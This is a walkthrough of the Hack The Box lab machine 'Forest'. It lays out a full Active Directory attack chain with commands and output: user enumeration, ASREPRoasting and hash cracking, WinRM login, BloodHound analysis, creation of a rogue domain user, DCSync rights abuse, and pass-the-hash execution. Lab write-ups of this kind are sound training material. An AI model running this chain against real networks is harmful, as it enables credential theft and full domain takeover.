

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---

# Forest

## Walkthrough Summary

[Forest](https://app.hackthebox.com/machines/212) is an <mark style="color:green;">easy-rated</mark> box which includes gaining an initial foothold via an [ASREPRoasting](https://app.gitbook.com/s/VQuTz1o4xYFE8N6tz9Vv/attacks/asreproasting) attack and exploiting the **Account Operators** group membership along with the **Exchange Windows Permissions** group's **WriteDACL** rights over the domain to perform a [DCSync](https://app.gitbook.com/s/VQuTz1o4xYFE8N6tz9Vv/attacks/dcsync) attack.

<table><thead><tr><th width="86">Step</th><th width="190">Action</th><th width="251">Tool</th><th>Achieved</th></tr></thead><tbody><tr><td>1</td><td><a href="https://app.gitbook.com/s/VQuTz1o4xYFE8N6tz9Vv/attacks/asreproasting">ASREPRoast</a></td><td><a href="../../tools/tools/active-directory/netexec-+cme.md">NetExec</a></td><td>Initial Foothold</td></tr><tr><td>2</td><td>Domain Enumeration</td><td><a href="https://github.com/BloodHoundAD/SharpHound">SharpHound</a>, <a href="https://github.com/BloodHoundAD/BloodHound">BloodHound</a></td><td>Privilege Escalation Path </td></tr><tr><td>3</td><td>User creation</td><td><a href="https://encyclopedia.kaspersky.com/glossary/lotl-living-off-the-land/">LOTL</a>*</td><td>Step 1/2 of Privesc</td></tr><tr><td>4</td><td>Rights' assigment</td><td><a href="https://github.com/n00py/DCSync">DCSync.py</a></td><td>Step 2/2 of Privesc</td></tr><tr><td>5</td><td><a href="https://app.gitbook.com/s/VQuTz1o4xYFE8N6tz9Vv/attacks/dcsync">DCSync</a></td><td><a href="https://github.com/fortra/impacket/blob/master/examples/secretsdump.py">secretsdump.py</a></td><td>Compromised domain</td></tr></tbody></table>

\*_Living Off The Land_

## Initial Foothold

### ASREPRoasting

We start with a Nmap port-scan.


```bash
$ sudo nmap -A -open -T4 10.10.10.161 -p-

PORT      STATE SERVICE      VERSION
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-03-21 16:14:09Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49674/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc        Microsoft Windows RPC
49680/tcp open  msrpc        Microsoft Windows RPC
49700/tcp open  msrpc        Microsoft Windows RPC
49916/tcp open  msrpc        Microsoft Windows RPC


Host script results:
|_clock-skew: mean: 2h26m49s, deviation: 4h02m32s, median: 6m47s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-03-21T16:15:10
|_  start_date: 2024-03-21T05:10:10
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-03-21T09:15:13-07:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
```


The scan results show many common services available on a Domain Controller (DC), such as Kerberos and LDAP.  There are some interesting things to note:

1. The domain name is `HTB.LOCAL`
2. The hostname is `FOREST.HTB.LOCAL`
3. The WinRM service is available.

Before proceeding further, we should add those names in our local DNS file.

```bash
$ grep forest /etc/hosts
10.10.10.161    htb.local forest.htb.local forest
```

We can now start enumerating the domain and see what we get. We can first query for domain users:


```bash
# user enumeration
$ nxc smb forest -u '' -p '' --users
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\:
SMB         10.10.10.161    445    FOREST           [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.10.161    445    FOREST           [+] Enumerated domain user(s)
SMB         10.10.10.161    445    FOREST           htb.local\Administrator                  Built-in account for administering the computer/domain
SMB         10.10.10.161    445    FOREST           htb.local\Guest                          Built-in account for guest access to the computer/domain
SMB         10.10.10.161    445    FOREST           htb.local\krbtgt                         Key Distribution Center Service Account
SMB         10.10.10.161    445    FOREST           htb.local\DefaultAccount                 A user account managed by the system.
SMB         10.10.10.161    445    FOREST           htb.local\$331000-VK4ADACQNUCA
SMB         10.10.10.161    445    FOREST           htb.local\SM_2c8eef0a09b545acb
SMB         10.10.10.161    445    FOREST           htb.local\SM_ca8c2ed5bdab4dc9b
SMB         10.10.10.161    445    FOREST           htb.local\SM_75a538d3025e4db9a
SMB         10.10.10.161    445    FOREST           htb.local\SM_681f53d4942840e18
SMB         10.10.10.161    445    FOREST           htb.local\SM_1b41c9286325456bb
SMB         10.10.10.161    445    FOREST           htb.local\SM_9b69f1b9d2cc45549
SMB         10.10.10.161    445    FOREST           htb.local\SM_7c96b981967141ebb
SMB         10.10.10.161    445    FOREST           htb.local\SM_c75ee099d0a64c91b
SMB         10.10.10.161    445    FOREST           htb.local\SM_1ffab36a2f5f479cb
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxc3d7722
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxfc9daad
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxc0a90c9
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox670628e
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox968e74d
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox6ded678
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox83d6781
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxfd87238
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailboxb01ac64
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox7108a4e
SMB         10.10.10.161    445    FOREST           htb.local\HealthMailbox0659cc1
SMB         10.10.10.161    445    FOREST           htb.local\sebastien
SMB         10.10.10.161    445    FOREST           htb.local\lucinda
SMB         10.10.10.161    445    FOREST           htb.local\svc-alfresco
SMB         10.10.10.161    445    FOREST           htb.local\andy
SMB         10.10.10.161    445    FOREST           htb.local\mark
SMB         10.10.10.161    445    FOREST           htb.local\santi
SMB         10.10.10.161    445    FOREST           htb.local\bubbleman
```


We get a user list back containing many junk accounts, thus, we have to convert it into a proper username list ready to be used for potential attacks.&#x20;


```bash
# redirect the output to a file
$ nxc smb forest -u '' -p '' --users > nxc_users.lst
# display the file's content
$ head -n5 nxc_users.lst
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\:
SMB         10.10.10.161    445    FOREST           [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.10.161    445    FOREST           [+] Enumerated domain user(s)
SMB         10.10.10.161    445    FOREST           htb.local\Administrator                  Built-in account for administering the computer/domain
# extract the users
$ cat nxc_users.lst | cut -d'\' -f2 | cut -d' ' -f1 > users.lst
# display the file's content
$ head -n5 users.lst
SMB
:
SMB
SMB
Administrator
# manually clean the junk
$ nano users.lst
# display the final file's content
$ cat users.lst
Administrator
Guest
krbtgt
DefaultAccount
sebastien
lucinda
svc-alfresco
andy
mark
santi
bubbleman
```


Since we now have a valid domain user list, we can check if any of those accounts are vulnerable to [ASREPRoasting](https://app.gitbook.com/s/VQuTz1o4xYFE8N6tz9Vv/attacks/asreproasting).


NetExec's LDAP protocol [expects](https://www.netexec.wiki/ldap-protocol/authentication) Domain Name Resolution. We have already done that by adding the names in our local DNS file after our port scan.


```
$ nxc ldap 10.10.10.161 -u users.lst -p '' --asreproast asreproast.lst
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.10.10.161    445    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:a89<REDACTED>8fa
```

We got back the hash of the `svc_alfresco` account, so we can try to crack it. If we supply just the hash file and a password list to Hashcat, the **auto-detect function** will find the appropriate mode to use and subsequently attempt to crack it.&#x20;


```bash
# asking hashcat to display the appropriate mode and then apply it
$ hashcat asreproast.lst /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6-850-gfafb277e0) starting in autodetect mode

OpenCL API (OpenCL 3.0 ) - Platform #1 [Intel(R) Corporation]
=============================================================
* Device #1: Intel(R) Graphics [0x9a60], 3200/6465 MB (512 MB allocatable), 32MCU

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #2 [The pocl project]
==================================================================================================================================================
* Device #2: cpu-skylake-avx512-11th Gen Intel(R) Core(TM) i7-11800H @ 2.30GHz, skipped

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

18200 | Kerberos 5, etype 23, AS-REP | Network Protocol
<SNIP>
$krb5asrep$23$svc-alfresco@HTB.LOCAL:a89<REDACTED>8fa:s<REDACTED>e
<SNIP>
```


Next, we can validate the credentials and check if the user has WinRM access.


```bash
# validate credentials
$ nxc smb 10.10.10.161 -u 'svc-alfresco' -p 's<REDACTED>e'
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s<REDACTED>e

# check for WinRM access
$ nxc winrm 10.10.10.161 -u 'svc-alfresco' -p 's<REDACTED>e'
SMB         10.10.10.161    445    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local)
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```


With WinRM access, we can now log into the DC and compromise the `user.txt` file.

```bash
$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s<REDACTED>e
<SNIP>
*Evil-WinRM* PS C:\Users\svc-alfresco> type desktop\user.txt
5a4<REDACTED>f85
```

## Privilege Escalation

### Sniffing Out an Attack Path

One of the most efficient ways to discover potential privilege escalation paths after obtaining an initial foothold is using SharpHound to collect domain information and then pass its output to BloodHound to analyze it.

```bash
# upload SharpHound to the target
*Evil-WinRM* PS C:\Users\svc-alfresco> upload SharpHound.exe

Info: Uploading /home/kali/htb/forest/SharpHound.exe to C:\Users\svc-alfresco\SharpHound.exe

Data: 965288 bytes of 965288 bytes copied

Info: Upload successful!
# execute SharpHound
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> .\SharpHound.exe -c all
2024-03-21T10:47:22.7320547-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-03-21T10:47:22.7635116-07:00|INFORMATION|Initializing SharpHound at 10:47 AM on 3/21/2024
2024-03-21T10:47:23.1694956-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for htb.local : FOREST.htb.local
2024-03-21T10:47:23.3413546-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-03-21T10:47:24.2945393-07:00|INFORMATION|Beginning LDAP search for htb.local
2024-03-21T10:47:24.4195984-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-03-21T10:47:24.4195984-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-03-21T10:47:54.3727492-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 38 MB RAM
2024-03-21T10:48:09.6852182-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2024-03-21T10:48:09.7320783-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2024-03-21T10:48:09.8414520-07:00|INFORMATION|Status: 162 objects finished (+162 3.6)/s -- Using 48 MB RAM
2024-03-21T10:48:09.8414520-07:00|INFORMATION|Enumeration finished in 00:00:45.5451881
2024-03-21T10:48:09.9195587-07:00|INFORMATION|Saving cache with stats: 119 ID to type mappings.
 119 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-03-21T10:48:09.9351804-07:00|INFORMATION|SharpHound Enumeration Completed at 10:48 AM on 3/21/2024! Happy Graphing!
# download the output to the attack host
*Evil-WinRM* PS C:\Users\svc-alfresco> download 20240315124803_htblocal.zip

Info: Downloading C:\Users\svc-alfresco\20240315124803_htblocal.zip to 20240315124803_htblocal.zip

Info: Download successful!
```

After uploading the zip file to BloodHound, we can search and mark the account `svc_alfresco` as **Owned** (Figure 1)**.**

<figure><figcaption><p>Figure 1: Searching and marking the svc_alfresco account as Owned.</p></figcaption></figure>

The analysis tab has many handy queries, such as **Shortest Path from Owned Principals** (Figure 2) and **Find Shortest Paths to Domain Admins** (Figure 3).

<figure><figcaption><p>Figure 2: Group nesting leads to svc_alfresco being a member of the Account Operators group.</p></figcaption></figure>

<figure><figcaption><p>Figure 3: The Exchange Windows Permissions group has WriteDACL permissions over the HTB.LOCAL domain.</p></figcaption></figure>

Based on the information shown on those two queries, the following stand out:

1. The account `svc_alfresco` is a member of the [**Account Operators**](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#account-operators) group (Figure 2). Members of this group can create and modify most types of accounts, including accounts for users, Local groups, and Global groups.
2. The **Windows Exchange Permissions** group has **WriteDACL** permissions over the **HTB.LOCAL** domain (Figure 3). As explained on [this](forest.md#account-operators-exploitation) article, members of this group have permission to grant themselves the required privileges for performing a [DCSync](https://app.gitbook.com/s/VQuTz1o4xYFE8N6tz9Vv/attacks/dcsync) attack.

Based on these two points, we can formulate the following attack path:

1. Create a **new domain user** account.
2. Add the account to the **Windows Exchange Permissions** **group**.
3. Assign **DCSync privileges** to the account.
4. Perform a [**DCSync**](https://app.gitbook.com/s/VQuTz1o4xYFE8N6tz9Vv/attacks/dcsync) **attack** over the domain.

### Escalating Privileges

We can perform the first two steps from our WinRM session.

```bash
# create a new domain user
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user /domain hacker h@ck3r! /add
The command completed successfully.
# add user to the required domain group
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group /domain "Exchange Windows Permissions" hacker /add
The command completed successfully.
```

Next, we can assign **DCSync rights** to the user, perform the [**DCSync**](https://app.gitbook.com/s/VQuTz1o4xYFE8N6tz9Vv/attacks/dcsync) **attack** and obtain the `Administrator`'s NT hash from our attack host.

```bash
# assign DCSync rights to the user
$ /opt/DCSync/DCSync.py -dc htb.local -t 'CN=hacker,CN=Users,DC=htb,DC=local' 'htb.local\hacker:h@ck3r!'
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Starting DCSync Attack against CN=hacker,CN=Users,DC=htb,DC=local
[*] Initializing LDAP connection to htb.local
[*] Using htb.local\hacker account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Querying domain security descriptor
[*] Success! User hacker now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20240321-182755.restore

# perform the DCSync attack
$ secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32<REDACTED>a6:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
[*] Cleaning up...
```

Finally, we can use the `Adnimistrator`'s credentials to compromise the `root.txt` file:

```bash
$ nxc smb 10.10.10.161 -u administrator -H '326<REDACTED>ea6' -X 'gc ~\Desktop\root.txt'
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\administrator:326<REDACTED>ea6 (Pwn3d!)
SMB         10.10.10.161    445    FOREST           [+] Executed command via wmiexec
SMB         10.10.10.161    445    FOREST           2e6<REDACTED>8e1
```

## Resources






